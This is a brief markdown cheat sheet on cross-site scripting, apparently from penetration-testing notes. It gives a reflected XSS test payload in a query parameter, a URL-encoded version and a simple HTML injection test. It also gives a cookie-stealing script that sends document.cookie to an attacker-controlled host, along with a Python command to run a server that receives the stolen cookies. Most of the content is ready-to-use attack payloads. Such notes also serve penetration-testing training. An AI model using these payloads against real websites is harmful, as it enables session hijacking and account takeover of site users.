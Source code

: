# Cross-Site Scripting

## Reflective

Put `<script>alert(1);</script>` in a query parameter.

`http://<HOST>/path?parameter=%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E`

## DOM based

Add HTML when submitting content, e.g. a feedback form.

Test: `<pre>Some message</pre>`

Steal cookies: `<script>var i = new Image(); i.src = "http://<LOCAL_IP>/?"+document.cookie;</script>Some message`

Receive requets: `python3 -m http.server 80`